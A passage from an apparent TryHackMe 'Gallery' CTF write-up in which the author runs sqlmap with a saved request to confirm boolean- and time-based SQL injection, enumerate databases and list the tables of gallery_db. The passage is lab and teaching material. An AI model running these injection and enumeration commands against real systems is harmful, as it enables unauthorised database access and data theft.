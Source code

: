 Let 's do it.

```
$ sqlmap -r text.req --dbs
```

There are `Boolean Based` and `Time Based` vulnerabilities of SQLi types on the site.

![kind](/assets/img/tryhackme/gallery/kind.png)

With the `--dbs` tag, sqlmap will give us the database names.

![databases](/assets/img/tryhackme/gallery/databases.png)

Now that we know the database names, let's get the tables.

```
$ sqlmap -r test.req -D <database-name> --tables 
```

I dumped the tables for `gallery_db`.

![tables](/assets/img/tryhackme/gallery/tables.png)
